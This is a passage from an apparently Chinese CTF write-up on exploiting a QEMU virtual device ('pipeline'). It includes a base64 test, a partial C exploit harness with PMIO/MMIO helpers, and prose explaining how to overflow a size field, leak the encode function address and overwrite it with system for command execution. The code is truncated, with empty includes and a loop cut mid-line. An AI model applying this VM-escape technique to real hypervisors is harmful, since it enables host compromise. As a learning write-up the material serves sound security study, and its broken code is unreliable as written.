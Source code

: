 
使用 0xff 进行 base64 编码作为测试数据，这样在解码后得到的溢出字符为 0xff，如果后续溢出 size，0xff 为最大值：

```
>>> from pwn import *
>>> b64e(b'\xff\xff\xff')
'////'

```

下面测试漏洞会不会覆盖掉 size 位

```
#include 
#include 
#include 
#include 
#include 
 
void * mmio;
int port_base = 0xc040;
 
void pmio_write(int port, int val){ outl(val, port_base + port); }
void mmio_write(uint64_t addr, char value){ *(char *)(mmio + addr) = value;}
int  pmio_read(int port) { return inl(port_base + port); }
char mmio_read(uint64_t addr){ return *(char *)(mmio + addr); }
 
void write_io(int idx,int size,int offset, char * data){
    pmio_write(0,idx); pmio_write(4,size);
    for(int i=0;i
```

看效果

 

gdb attach 之后，将断点下到 pipeline_mmio_write，就可以愉快的 c 了

 

执行 pmio_write(16,0) 之前；

 

![](https://bbs.pediy.com/upload/attach/202211/922338_48QF7F3T8KHS32E.jpg)

 

执行 pmio_write(16,0) 之后，看到 decPipe[3] 的 size 被修改为了 0xff，溢出达到，可以进行越界读写。

 

![](https://bbs.pediy.com/upload/attach/202211/922338_E4TJYRWF44QYK3Y.jpg)

### 3. 利用

既然已经完成了 size 位的劫持，再通过 mmio_read 泄露 encode 函数地址，修改 encode 指针为 system，再 pima_write(12,0) 即可命令执行

```
#include 
#include 
#include 
#include 
#include 
#include 
#include 
#include 
#include 
#include 
#include 
 
#include 
#include 
```